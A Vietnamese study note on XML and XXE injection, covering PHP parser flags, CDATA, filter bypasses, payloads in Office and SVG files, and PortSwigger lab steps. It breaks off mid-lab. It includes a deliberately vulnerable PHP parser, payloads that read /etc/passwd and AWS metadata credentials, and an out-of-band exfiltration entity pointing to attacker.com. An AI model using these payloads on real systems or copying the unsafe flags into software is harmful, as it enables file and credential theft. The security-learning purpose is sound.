

# Task 5

Text: TASK 5
- Tìm hiểu về xml file (cấu trúc, cú pháp cơ bản, thường dùng để làm gì?) 
- Demo 1 chương trình web php dùng file xml để lưu trữ dữ liệu sản phẩm.
- XXE Injection, phân biệt entity, external DTD và internal DTD. Hậu quả của XXE Injection.
- Tìm hiểu chi tiết về CDATA và CDATA giúp ích gì trong XXE Injection, những ký hiệu CDATA không thể escape.
- Demo lại lỗ hổng này bằng php, cách ngăn chặn trong php(chi tiết với những hàm nào thì gây ra lỗi, hàm nào thì không gây ra lỗi, hàm nào được php viết để load file xml không xảy ra xxe).
- Các kỹ thuật bypass filter xxe thường gặp.
- Trình bày những dạng tấn công XXE qua những file thường gặp(docx, dtd, ...)
- Tìm hiểu về những dạng tấn công nhắm đến những phần khác nhau của xml có thể gặp, nguyên nhân, cách phòng tránh.
- CLEAR LAB:
https://portswigger.net/web-security/all-labs#xml-external-entity-xxe-injection

# I. Tìm hiểu về XML file

XML (eXtensible Markup Language) là một ngôn ngữ đánh dấu (markup language) được thiết kế để lưu trữ và vận chuyển dữ liệu. Không giống HTML (ngôn ngữ hiển thị), XML tập trung vào **mô tả dữ liệu**

## 1. Mục đích của XML

- Lưu trữ dữ liệu có cấu trúc.
- Trao đổi dữ liệu giữa các hệ thống khác nhau (web services, APIs).
- Cấu hình phần mềm (file cấu hình trong Java, Android...).
- Biểu diễn dữ liệu trong các ứng dụng như Microsoft Office, OpenOffice...
- Dùng trong các chuẩn như RSS, SOAP, SVG...

## 2. Cấu trúc và cú pháp cơ bản của một file XML

Cấu trúc cơ bản của một file XML bao gồm các thành phần chính sau: **các thẻ (tags), phần tử (elements), thuộc tính (attributes) và nội dung (content).**

**1. [Khai báo XML](https://www.google.com/search?sca_esv=d5e847b1dc31b2cb&cs=1&sxsrf=AE3TifOm0KXa5UyRt8-klEUwJOYF-7icVw%3A1754415908677&q=Khai+b%C3%A1o+XML&sa=X&ved=2ahUKEwj2ovTHnPSOAxUXQjABHSK1CEkQxccNegQICBAC&mstk=AUtExfA2TLxTA8J6D1N6KN2ov7squkpXlNLW5CBYvIUmBPYVOq-tY6-z44GvildGrsHVn3v17TvDh-nUQSUgx_nNJEyqfwaEWXNEUwZ-hTaGw_23FDYPfHKSvvCOfZ2fxf0L2xkp4ZWeLM-9tfWxyn3pcLFTB2_1SEP5lOjFHMTh_GCoNE-86nZUyv1Mk8RVcRMBX0j5VaatmEqct0jk3C3Tom3cy7dr9cn-KCSzOBWwrpcCZAYO6r2RYM_D0H4RWzKmczuuyYl4y4oO2dGvuvnMrxwzVYxQ7JxHhvpIyPaC-RpFdw&csui=3):**

- <?xml version="1.0" encoding="UTF-8"?>
- Khai báo này thường xuất hiện đầu tiên trong file XML.
- `version="1.0"` chỉ định phiên bản XML, thường là 1.0.
- `encoding="UTF-8"` chỉ định bảng mã ký tự được sử dụng, thường là UTF-8.

**2. [Thẻ (Tags)](https://www.google.com/search?sca_esv=d5e847b1dc31b2cb&cs=1&sxsrf=AE3TifOm0KXa5UyRt8-klEUwJOYF-7icVw%3A1754415908677&q=Th%E1%BA%BB+%28Tags%29&sa=X&ved=2ahUKEwj2ovTHnPSOAxUXQjABHSK1CEkQxccNegQIFhAC&mstk=AUtExfA2TLxTA8J6D1N6KN2ov7squkpXlNLW5CBYvIUmBPYVOq-tY6-z44GvildGrsHVn3v17TvDh-nUQSUgx_nNJEyqfwaEWXNEUwZ-hTaGw_23FDYPfHKSvvCOfZ2fxf0L2xkp4ZWeLM-9tfWxyn3pcLFTB2_1SEP5lOjFHMTh_GCoNE-86nZUyv1Mk8RVcRMBX0j5VaatmEqct0jk3C3Tom3cy7dr9cn-KCSzOBWwrpcCZAYO6r2RYM_D0H4RWzKmczuuyYl4y4oO2dGvuvnMrxwzVYxQ7JxHhvpIyPaC-RpFdw&csui=3):**

- Thẻ dùng để đánh dấu bắt đầu và kết thúc một phần tử XML.
- Thẻ mở có dạng `<tên_thẻ>`.
- Thẻ đóng có dạng `</tên_thẻ>`.
- Ví dụ: `<danh_sach>` và `</danh_sach>`.

**3. [Phần tử (Elements)](https://www.google.com/search?sca_esv=d5e847b1dc31b2cb&cs=1&sxsrf=AE3TifOm0KXa5UyRt8-klEUwJOYF-7icVw%3A1754415908677&q=Ph%E1%BA%A7n+t%E1%BB%AD+%28Elements%29&sa=X&ved=2ahUKEwj2ovTHnPSOAxUXQjABHSK1CEkQxccNegQIJBAC&mstk=AUtExfA2TLxTA8J6D1N6KN2ov7squkpXlNLW5CBYvIUmBPYVOq-tY6-z44GvildGrsHVn3v17TvDh-nUQSUgx_nNJEyqfwaEWXNEUwZ-hTaGw_23FDYPfHKSvvCOfZ2fxf0L2xkp4ZWeLM-9tfWxyn3pcLFTB2_1SEP5lOjFHMTh_GCoNE-86nZUyv1Mk8RVcRMBX0j5VaatmEqct0jk3C3Tom3cy7dr9cn-KCSzOBWwrpcCZAYO6r2RYM_D0H4RWzKmczuuyYl4y4oO2dGvuvnMrxwzVYxQ7JxHhvpIyPaC-RpFdw&csui=3):**

- Phần tử là một đơn vị dữ liệu trong XML, bao gồm thẻ mở, thẻ đóng và nội dung giữa chúng.
- Nội dung có thể là văn bản, các phần tử con hoặc cả hai, tạo thành cấu trúc phân cấp.
- Ví dụ: `<ten_nguoi>Nguyen Van A</ten_nguoi>`.

**4. [Thuộc tính (Attributes)](https://www.google.com/search?sca_esv=d5e847b1dc31b2cb&cs=1&sxsrf=AE3TifOm0KXa5UyRt8-klEUwJOYF-7icVw%3A1754415908677&q=Thu%E1%BB%99c+t%C3%ADnh+%28Attributes%29&sa=X&ved=2ahUKEwj2ovTHnPSOAxUXQjABHSK1CEkQxccNegQIMBAC&mstk=AUtExfA2TLxTA8J6D1N6KN2ov7squkpXlNLW5CBYvIUmBPYVOq-tY6-z44GvildGrsHVn3v17TvDh-nUQSUgx_nNJEyqfwaEWXNEUwZ-hTaGw_23FDYPfHKSvvCOfZ2fxf0L2xkp4ZWeLM-9tfWxyn3pcLFTB2_1SEP5lOjFHMTh_GCoNE-86nZUyv1Mk8RVcRMBX0j5VaatmEqct0jk3C3Tom3cy7dr9cn-KCSzOBWwrpcCZAYO6r2RYM_D0H4RWzKmczuuyYl4y4oO2dGvuvnMrxwzVYxQ7JxHhvpIyPaC-RpFdw&csui=3):**

- Thuộc tính cung cấp thông tin bổ sung cho phần tử.
- Thuộc tính được đặt trong thẻ mở, có dạng `tên_thuộc_tính="giá_trị"`.
- Ví dụ: `<nguoi id="1">`

Ví dụ:

```python
<?xml version="1.0" encoding="UTF-8"?>
<danh_sach_sinh_vien>
    <sinh_vien id="1">
        <ten>Nguyen Van A</ten>
        <tuoi>20</tuoi>
    </sinh_vien>
    <sinh_vien id="2">
        <ten>Tran Thi B</ten>
        <tuoi>21</tuoi>
    </sinh_vien>
</danh_sach_sinh_vien>
```

### Diễn giải:

- `<danh_sach_sinh_vien>` là phần tử gốc (root element) ,
- chứa hai phần tử con (element)  `<sinh_vien>`.
- Mỗi `<sinh_vien>` có thuộc tính `id` và chứa các phần tử con `<ten>` và `<tuoi>`

# II. Demo 1 chương trình web sử dụng php dùng file xml lưu trữ dữ liệu sản phẩm

- index.php
    
    ```python
    <?php
    $products = simplexml_load_file('products.xml');
    ?>
    <!DOCTYPE html>
    <html lang="vi">
    <head>
        <meta charset="UTF-8">
        <title>Danh sách sản phẩm</title>
        <link rel="stylesheet" href="style.css">
    </head>
    <body>
        <h2>Danh sách sản phẩm</h2>
        <table border="1" cellpadding="8">
            <tr>
                <th>ID</th>
                <th>Tên sản phẩm</th>
                <th>Giá(VND)</th>
            </tr>
        <?php foreach ($products->product as $item): ?>   <!--duyệt qua từng product trong xml và đặt là $item -->
            <tr>                   <!--mỗi vòng lặp sẽ tạo một dòng bảng <tr> tương ứng với mỗi sẩn phẩm -->
                <td><?= $item->id ?></td>  <!--in ra id sản phẩm -->
                <td><?= $item->name ?></td>
                <td><?= number_format((float)$item->price, 0, ',', '.') ?></td>
            </tr>
        <?php endforeach; ?>
        </table>
    </body>
    </html>
    
    ```
    
- products.xml
    
    ```python
    <?xml version="1.0" encoding="UTF-8"?>
    <products>
        <product>
            <id>1</id>
            <name>Snack</name>
            <price>10000</price>
        </product>
        <product>
            <id>2</id>
            <name>Bánh</name>
            <price>20000</price>
        </product>
        <product>
            <id>3</id>
            <name>Sữa</name>
            <price>7000</price>
        </product>
    </products>
    ```
    
- style.css
    
    ```python
    body {
      font-family: "Segoe UI", sans-serif;
      background-color: #f4f6f8;
      color: #333;
      padding: 40px;
    }
    
    h2 {
      text-align: center;
      color: #2c3e50;
      margin-bottom: 30px;
    }
    
    table {
      margin: auto;
      border-collapse: collapse;
      width: 80%;
      background-color: white;
      box-shadow: 0 2px 10px rgba(0, 0, 0, 0.1);
    }
    
    th,
    td {
      border: 1px solid #ddd;
      padding: 12px 16px;
      text-align: center;
    }
    
    th {
      background-color: #3498db;
      color: white;
      font-size: 16px;
    }
    
    tr:nth-child(even) {
      background-color: #f2f2f2;
    }
    
    tr:hover {
      background-color: #e8f4fd;
      cursor: pointer;
    }
    
    ```
    



# III. XXE Injection, phân biệt entity, external DTD và internal DTD. Hậu quả của XXE Injection.

## 1. XXE Injection là gì?

**XXE (XML External Entity Injection)** là một lỗ hổng bảo mật xảy ra khi một ứng dụng **phân tích (parse)** dữ liệu XML **không an toàn**, cho phép kẻ tấn công:

- Chèn các **thực thể XML độc hại (entity)**.
- Gửi các truy vấn XML khai báo thêm **external DTD (Document Type Definitions)** hoặc **entity**.
- Truy xuất file hệ thống, gửi request HTTP nội bộ, từ đó **rò rỉ dữ liệu**, **tấn công SSRF**, hoặc **DOS**

## **2. Entity (thực thể)**

- Là các **biến hoặc macro** trong XML, được định nghĩa và sử dụng để **tái sử dụng nội dung**.
- Có thể là **internal entity** (nội bộ) hoặc **external entity** (tham chiếu đến tài nguyên bên ngoài).

 ví dụ internal entity:

```python
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY hello "Hello from entity!">
]>
<data>&hello;</data>
```

⇒ kết quả `<data>Hello from entity!</data>` 

ví dụ external entity:

```python
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY ext SYSTEM "http://example.com/value.txt">
]>
<data>&ext;</data>
```

- Entity references
    - Một số ký tự như `<`, `>`, `&`… **có nghĩa đặc biệt** cho parser.
    - Nếu viết trực tiếp, parser sẽ hiểu nhầm là markup, không phải dữ liệu.
    - Vì vậy, ta phải **escape** chúng bằng entity references.
    
    Các entity cơ bản trong XML
    
    | Entity | Ý nghĩa | Ký tự hiển thị |
    | --- | --- | --- |
    | `&lt;` | Less than | `<` |
    | `&gt;` | Greater than | `>` |
    | `&amp;` | Ampersand | `&` |
    | `&quot;` | Double quote | `"` |
    | `&apos;` | Apostrophe (single quote) | `'` |

## 3. DTD **(Document Type Definition)**

**DTD (Document Type Definition)** là một phần của XML, dùng để **xác định cấu trúc và quy tắc** của một tài liệu XML.

### **a. Internal DTD**

- Là phần `<!DOCTYPE>` được **định nghĩa trực tiếp bên trong tài liệu XML**.
- Có thể chứa các entity nội bộ (internal entity).

🔹 Ví dụ:

```python
<?xml version="1.0"?>
<!DOCTYPE data [
  <!ENTITY mydata "Local text">
]>
<data>
  &mydata;
</data>
```

### **b. External DTD**

- Là DTD được định nghĩa ở **một file bên ngoài**, và XML sẽ **tham chiếu tới URL hoặc file hệ thống**.
- Có thể chứa external entity (dễ bị khai thác trong XXE).

🔹 Ví dụ:

```python
<?xml version="1.0"?>
<!DOCTYPE data SYSTEM "http://evil.com/evil.dtd">
<data>&external;</data>
```

## 4. Hậu quả của XXE injection

| Mức độ | Tác hại cụ thể |
| --- | --- |
| 📂 Rò rỉ dữ liệu | Đọc file nhạy cảm trên server (vd: `/etc/passwd`, `.env`) |
| 🔁 SSRF | Gửi request HTTP nội bộ (vd: `http://localhost:8080/admin`) |
| 🚫 DoS | Gây từ chối dịch vụ bằng BOM (Billion Laughs Attack) |
| 🪟 Phá vỡ sandbox | Nếu hệ thống dùng XML để giao tiếp giữa các module |

# IV. CDATA và vai trò trong XXE Injection

## 1. Khái niệm CDATA

**CDATA (Character Data)** là một phần đặc biệt trong XML dùng để chứa dữ liệu văn bản mà **không được XML phân tích cú pháp** (tức là nội dung bên trong CDATA sẽ được giữ nguyên, không bị parser của XML xử lý các ký tự đặc biệt như `<`, `>`, `&`, ...).
Cú pháp:

```python
<![CDATA[
    Nội dung không bị XML xử lý, kể cả có <tag>, &entity;
]]>
```

Dữ liệu bên trong `<![CDATA[ ... ]]>` được giữ nguyên và không bị coi là cú pháp XML.

## 2. CDATA giúp ích gì trong XXE Injection?

Trong **XXE (XML External Entity) Injection**, attacker thường muốn **chèn dữ liệu đặc biệt hoặc payload** vào XML mà không bị parser hoặc filter phá hỏng.

Vấn đề thường gặp:

- Một số ứng dụng **escape** các ký tự như `<`, `&`, `>` trong input trước khi đưa vào XML → khiến payload không chạy.
- Nếu ta có thể đưa payload vào **CDATA section**, parser sẽ **bỏ qua việc escape** và đọc nguyên xi nội dung → bypass filter.

Ví dụ **filter escape ký tự**:

```python
<root>
    <name>&lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;</name>
</root>
```

→ Lúc này parser không hiểu `<!ENTITY ...>` vì đã bị escape thành text.

Nhưng nếu input nằm trong CDATA:

```python
<root>
    <name><![CDATA[<!ENTITY xxe SYSTEM "file:///etc/passwd">]]></name>
</root>
```

→ Parser sẽ giữ nguyên payload, sau đó nếu ta control được parsing logic, nó vẫn có thể được xử lý.

- **Lợi ích trong XXE**:
    - Bypass escaping của `<` và `&`.
    - Giữ nguyên cấu trúc payload XXE.
    - Dễ giấu dữ liệu đặc biệt mà parser XML bình thường sẽ reject.

## 3. Những ký hiệu bên trong CDATA **không thể escape**

Dù CDATA cho phép gần như mọi ký tự, **có một ngoại lệ duy nhất**:

- **Không thể chứa `]]>`** bên trong, vì đây chính là chuỗi đóng CDATA.
- Nếu muốn chứa `]]>` trong nội dung, phải tách ra thành nhiều CDATA:

```python
<![CDATA[abc]]]]><![CDATA[>def]]>
```

→ Kết quả ghép lại vẫn là `abc]]>def` 

# V. Demo lại lỗ hổng này bằng PHP

## 1. DEMO Trang web cho phép nhập đoạn code XML rồi trang web sẽ đọc đoạn XML


- index.php
    
    ```php
    <?php
    // Mục đích: đọc nội dung <note> trong XML người dùng gửi lên
    
    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $xml = $_POST['xml'] ?? '';
    
        // - LIBXML_NOENT: thay thế entity bằng giá trị => mở toang XXE
        // - LIBXML_DTDLOAD: cho phép load DTD => cần để kích hoạt entity người dùng định nghĩa
        $dom = new DOMDocument();
        $ok = $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
    
        if (!$ok) {
            http_response_code(400);
            echo "XML không hợp lệ";
            exit;
        }
    
        $notes = $dom->getElementsByTagName('note');  //lấy tất cả thẻ <note> trong xml 
        echo "<h3>Output:</h3>";
        foreach ($notes as $n) {  //lặp qua từng thẻ note
            echo "<pre>" . htmlspecialchars($n->textContent, ENT_QUOTES, 'UTF-8') . "</pre>";
        }
        exit;
    }
    ?>
    <!doctype html>
    <html><body>
    <h2>Vulnerable XXE demo</h2>
    <form method="POST">
    <textarea name="xml" rows="12" cols="80" placeholder="Dán XML vào đây"></textarea><br>
    <button type="submit">Parse XML</button>
    </form>
    </body></html>
    ```
    
- `LIBXML_NOENT`: khi gặp `&entity;` thì parser sẽ **thay thế** bằng nội dung của entity (nếu là `SYSTEM "file://..."` thì sẽ đọc file).
- `LIBXML_DTDLOAD`: cho phép parser **load và xử lý DTD** (Document Type Definition), kể cả do người dùng định nghĩa trong XML.
- `$dom = new DOMDocument();` tạo một đối tượng DOMDocument (trình phân tích XML trong PHP).
- `$dom->loadXML(...)`: parse chuỗi XML với các flag nguy hiểm (`NOENT | DTDLOAD`).
    - Đây chính là **điểm kích hoạt XXE**.
- **`loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD)`**
- `loadXML()` là **method** của `DOMDocument`.
    - Nó nhận **2 tham số**:
        1. `$xml`: chuỗi XML cần parse.
        2. `$options`: tùy chọn xử lý (kiểu số nguyên, có thể dùng toán tử bitwise OR để kết hợp nhiều flag).
    - `LIBXML_NOENT | LIBXML_DTDLOAD` nghĩa là kết hợp **hai hằng số** bằng toán tử bitwise OR (`|`):
        - `LIBXML_NOENT` (replace entities): parser sẽ **thay thế entity** bằng giá trị thật.
        - `LIBXML_DTDLOAD` (load DTD): parser sẽ **tải và xử lý DTD** nếu XML có.

## 2. Tấn công bằng XXE, đọc nội dung file C:/Windows/win.ini


## 3. Những hàm dễ gây XXE - và cái nào an toàn

> PHP dùng libxml2 cho DOM/SimpleXML/XMLReader. XXE thường xảy ra khi DTD được load và entities được thay thế.
> 

### 3.1. DOMDocument

- Gây XXE khi:
    - Gọi `loadXML()`/`load()` với **`LIBXML_NOENT`** (thay entity) **và** cho phép DTD (**`LIBXML_DTDLOAD`** hoặc `resolveExternals=true`).
    - Hoặc bật property:
        
        ```php
        php
        Sao chépChỉnh sửa
        $dom->resolveExternals = true;   // cho load DTD/external entities
        $dom->substituteEntities = true; // thay thế entities
        ```
        
- An toàn khi:
    - **Không** dùng `LIBXML_NOENT`, **không** dùng `LIBXML_DTDLOAD`.
    - Thêm **`LIBXML_NONET`** để cấm truy cập mạng (chặn OOB).
    - Giữ mặc định `resolveExternals=false`, `substituteEntities=false`.

### 3.2. SimpleXML (`simplexml_load_string`, `simplexml_load_file`)

- Gây XXE khi truyền flags **`LIBXML_NOENT`** (thay entity) **và** DTD có thể được load (ngầm hoặc do thêm `LIBXML_DTDLOAD`).
- An toàn khi không bật `NOENT`/`DTDLOAD` và thêm **`LIBXML_NONET`**.

### 2.3. XMLReader

- Gây XXE khi:
    - `setParserProperty(XMLReader::LOADDTD, true)` **và**
    - `setParserProperty(XMLReader::SUBST_ENTITIES, true)` (thay entity).
- An toàn khi:
    - Giữ mặc định `LOADDTD=false`, `SUBST_ENTITIES=false`,
    - Và dùng `LIBXML_NONET` khi mở:
    
    ```xml
    $xr = new XMLReader();
    $xr->XML($xml, null, LIBXML_NONET);
    ```
    

# VI. Kỹ thuật bypass filter XXE thường gặp

Khi dev cố gắng chặn XXE, họ thường chặn các từ khóa như `<!DOCTYPE`, `<!ENTITY`, hoặc `SYSTEM`. Nhưng attacker vẫn có nhiều cách lách:

| Kỹ thuật | Mô tả | Ví dụ |
| --- | --- | --- |
| **Case variation** | XML parser không phân biệt hoa thường trong `DOCTYPE`/`ENTITY`. | `<!DoCtYpE foo [ <!EnTiTy ...> ]>` |
| **Whitespace / tab / newline** | Chèn khoảng trắng, ký tự tab, hoặc newline giữa từ khóa. | `<!DOC\nTYPE foo [ <!ENTITY ...> ]>` |
| **Parameter Entities (`%`)** | Dùng entity dạng tham số để gián tiếp khai báo external entity. | `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "file:///etc/passwd">%xxe;]>` |
| **CDATA Abuse** | Gói payload trong CDATA để tránh bị filter phá cú pháp. | `<![CDATA[ &xxe; ]]>` |
| **Chaining DTD** | Import DTD bên ngoài chứa payload. | `<!DOCTYPE foo SYSTEM "http://evil.com/payload.dtd">` |
| **Hex / Unicode encoding** | Encode từ khóa `SYSTEM` hoặc URL thành dạng số. |  |
| **Alternative protocols** | Không dùng `file://` mà dùng `php://filter`, `ftp://`, `http://`, `gopher://` để đọc dữ liệu. | `<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">` |
| **OOB XXE (Out-of-band)** | Không hiển thị dữ liệu ngay → gửi về server attacker qua HTTP/FTP. | `<!ENTITY % xxe SYSTEM "http://attacker.com/?data=%file;">` |

# VII. **XXE qua các file thường gặp**

Microsoft Word, Excel, PowerPoint và nhiều định dạng file khác dùng XML:

- XML **dễ đọc và dễ phân tích** cho cả người và máy.
- Nó là tiêu chuẩn mở, giúp phần mềm khác có thể đọc file mà không cần biết cách mã hóa riêng của Microsoft.
- `.docx`, `.xlsx`, `.pptx` **thực chất là file ZIP** chứa nhiều file XML và tài nguyên (ảnh, style...).

📌 Ví dụ:

Nếu bạn đổi tên file.dox thành file.zip rồi giải nén, bạn sẽ thấy :

```
word/
    document.xml         <-- nội dung văn bản
    styles.xml           <-- định dạng
    fontTable.xml        <-- bảng font
```

- Cách tấn công XXE qua file `.docx`
    - Vì `.docx` chứa XML → attacker có thể mở `document.xml` và **chèn payload XXE** vào, ví dụ:
        
        ```xml
        <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
        <w:document>
          <w:body>
            <w:p>
              <w:r>
                <w:t>&xxe;</w:t>
              </w:r>
            </w:p>
          </w:body>
        </w:document>
        ```
        
        → Nếu ứng dụng nhận file `.docx` này **dùng XML parser không an toàn**, nó sẽ parse entity `&xxe;` và truy cập file `/etc/passwd`.
        
- Các loại file có thể tấn công XXE phổ biến khác:

| Loại file | Bản chất | Cách chèn payload |
| --- | --- | --- |
| **.docx / .xlsx / .pptx** | Thực chất là **file ZIP** chứa nhiều file `.xml` bên trong (Office Open XML format). | Giải nén → chèn `<!DOCTYPE>` + `<!ENTITY>` vào một file XML bên trong (ví dụ `word/document.xml`) → nén lại. |
| **.svg** | File ảnh vector XML, hỗ trợ DOCTYPE và ENTITY. | Thêm payload XXE trực tiếp vào đầu file SVG. |
| **.xml** | File XML thuần. | Chèn payload XXE vào DOCTYPE. |
| **.dtd** | File định nghĩa DTD (Document Type Definition). | Đưa payload độc hại vào file `.dtd` rồi include từ XML chính: `<!DOCTYPE foo SYSTEM "http://evil.com/payload.dtd">` |
| **.xsl** | Stylesheet XML dùng cho XSLT. | Chèn ENTITY hoặc SYSTEM call vào. |
| **RSS / Atom** | Feed XML. | Thêm XXE vào DOCTYPE của feed. |
| **SOAP / SAML** | Gói tin dựa trên XML. | Chèn payload XXE vào DOCTYPE của request. |

# VIII. **Các dạng tấn công nhắm vào phần khác nhau của XML và cách phòng tránh**

| Dạng | Vị trí tấn công | Nguyên nhân | Cách phòng tránh |
| --- | --- | --- | --- |
| **Classic XXE** | Dùng `<!DOCTYPE>` + `<!ENTITY>` trong đầu XML → thay thế node bằng dữ liệu file hoặc HTTP response. | Parser XML **cho phép** external entities. | Tắt hoàn toàn external entity & DTD (vd: `libxml_disable_entity_loader(true)` trong PHP cũ, hoặc `LIBXML_NOENT` bỏ đi). |
| **Parameter Entity XXE** | Dùng `%entity;` trong DTD để khai báo gián tiếp. | Parser xử lý **parameter entity**. | Tắt `loadExternalDTD` & `resolveExternals`. |
| **Blind XXE / OOB** | Payload không hiển thị ra response, gửi dữ liệu ra ngoài qua HTTP/FTP. | Parser cho phép tải DTD ngoài. | Chặn request outbound, firewall chặn truy cập ra ngoài. |
| **XML Attribute Injection** | Chèn entity vào giá trị attribute XML, thay vì text node. | Parser vẫn resolve entities trong attribute. | Escape toàn bộ input đưa vào XML attributes. |
| **CDATA-based** | Giấu entity trong CDATA để tránh filter. | Filter chỉ chặn DOCTYPE/ENTITY trực tiếp, không parse sâu. | Kiểm tra toàn bộ XML tree trước parse. |
| **XXE qua XInclude** | Không cần DTD, dùng `<xi:include href="file:///etc/passwd"/>`. | Parser hỗ trợ XInclude. | Disable XInclude (`$xml->xinclude();` → không dùng). |
| **XXE qua XML Schema (XSD)** | Chèn entity trong XSD khi XML load schema. | App tự động tải schema ngoài. | Không load schema từ URL không tin cậy. |

# IX. Lab trên portswigger

## **1 Lab: Exploiting XXE using external entities to retrieve files**

- click “Check stock” và chặn request bằng burp suite
- Chèn external entity vào giữa khai báo XML và phần tử StockCheck:
    
    `<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>` 
    
    Trong đó:
    
    `<!DOCTYPE test [...]>` : là định nghĩa một Doctype có tên “test”
    
    `<!ENTITY xxe SYSTEM "file:///etc/passwd">` : tạo một entity có tên “xxe” trỏ đến file /etc/passwd trên hệ thống 
    
- Sau đó thay số productId bằng thực thể `&xxe;` ( trong xml khi gọi một entity phải có dấu `;` )


- Server khi sử lý xml sẽ thay thế &xxe bằng nội dung của file /etc/passwd
- Server sẽ cố gắng sử lý &xee; như một giá trị hợp lệ nhưng nó lại trỏ đến nội dung file /ect/passwd nên nó vô tình đọc file này và gửi lại trong response
- Kết quả sẽ trả về một thông báo lỗi có dạng:
    
    Invalid product ID: [nội dung file]
    


## **2. Lab: Exploiting XXE to perform SSRF attacks**

### **1. Amazon Web Services (AWS) là gì**

- AWS là **dịch vụ điện toán đám mây** của Amazon.
- Nó cung cấp rất nhiều “dịch vụ” mà bạn có thể thuê và dùng qua internet, ví dụ:
    - **Máy ảo** (EC2)
    - **Lưu trữ file** (S3)
    - **Cơ sở dữ liệu** (RDS)
    - **Mạng ảo** (VPC)
- Thay vì tự mua máy chủ vật lý, bạn **thuê** máy chủ của AWS, trả tiền theo giờ hoặc theo mức sử dụng.

### **2. EC2 là gì**

- EC2 (**Elastic Compute Cloud**) là dịch vụ **máy ảo** trong AWS.
- Bạn có thể:
    - Tạo máy ảo mới chỉ bằng vài cú click.
    - Chọn cấu hình CPU, RAM, dung lượng ổ đĩa.
    - Chạy hệ điều hành tùy thích (Linux, Windows…).
- **Elastic** nghĩa là bạn có thể tăng/giảm cấu hình bất kỳ lúc nào (co giãn theo nhu cầu).
- Khi bạn chạy một **máy ảo EC2** trên AWS, Amazon tạo sẵn **một dịch vụ đặc biệt bên trong máy đó** gọi là **Instance Metadata Service (IMDS)**.  ( còn gọi là metadata endpoint )
- Dịch vụ này cung cấp **thông tin về chính máy EC2 đang chạy**, ví dụ:
    - Thông tin mạng
    - Vùng (region) đang chạy
    - Danh sách IAM roles gán cho máy
    - **Thông tin xác thực tạm thời (AccessKey, SecretAccessKey)** nếu máy được gán một IAM Role.
- IMDS **không cần internet**, mà chạy ở địa chỉ cục bộ: `[http://169.254.169.254/](http://169.254.169.254/)`

### 3. IAM  (Identity and Access Management) role là gì

- IAM Role = quyền hạn mà bạn cấp cho dịch vụ hoặc máy EC2 trong AWS.
- Ví dụ: nếu role có quyền đọc S3, thì bất kỳ ai có **AccessKey + SecretAccessKey** của role đó đều có thể đọc dữ liệu S3.
- Khi EC2 có role, AWS sẽ tự động **cấp key tạm thời** cho máy, lưu tại:
    
    [`http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)<role-name>`
    
    Key này cực kỳ quan trọng vì dùng nó hacker có thể điều khiển tài nguyên AWS.
    

### **4. AccessKey và SecretAccessKey của role là gì?**

- Trên AWS:
    - **AccessKey** = giống như username cho API AWS.
    - **SecretAccessKey** = giống như password cho API AWS (phải giữ bí mật tuyệt đối).
    - Khi một EC2 có **IAM Role** gán, AWS sẽ cấp một bộ **AccessKey / SecretAccessKey / Token** tạm thời cho EC2 để dùng gọi AWS API.
- Nếu hacker lấy được bộ key này, họ có thể **đăng nhập vào AWS bằng quyền của role đó** (ví dụ: đọc S3, thay đổi EC2, xóa database… tùy quyền role có).

### **5. SSRF** (Server-Side Request Forgery).

**SSRF** là lỗ hổng cho phép kẻ tấn công **ép ứng dụng web (server)** gửi request HTTP đến một địa chỉ tùy ý, thay vì gửi từ máy của hacker.

- Nói đơn giản: hacker **điều khiển server** để nó “đi lấy dữ liệu” ở nơi mình muốn.
- Vì request này được gửi từ server, nó có thể truy cập những **dịch vụ nội bộ (internal)** hoặc **endpoint đặc biệt** mà hacker từ bên ngoài không truy cập được.

---

### Khai thác bài lab

- Đầu tiên ta thêm đoạn external entity vào giữa khai báo XML và <stockCheck>

`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>`

nó sẽ tạo thực thể xxe trỏ đến URL [http://169.254.169.254/](http://169.254.169.254/), tức là EC2 metadata endpoint

- và sửa số producId thành `&xxe;`


nó sẽ đọc nội dung của đường dẫn metadata endpoint và trả về nội dung của nó


trả về latest có nghĩa nó là một đường dẫn vì **EC2 metadata endpoint** (`http://169.254.169.254/`) hoạt động giống một **API dạng cây thư mục**. Khi bạn gửi request tới **root path** `/`, nó không trả ngay dữ liệu nhạy cảm. Thay vào đó, nó trả về **danh sách các “mục con”** (directory listing) mà bạn có thể tiếp tục truy cập.

- tiếp tục thêm `/lastest` vào đường dẫn thành
    
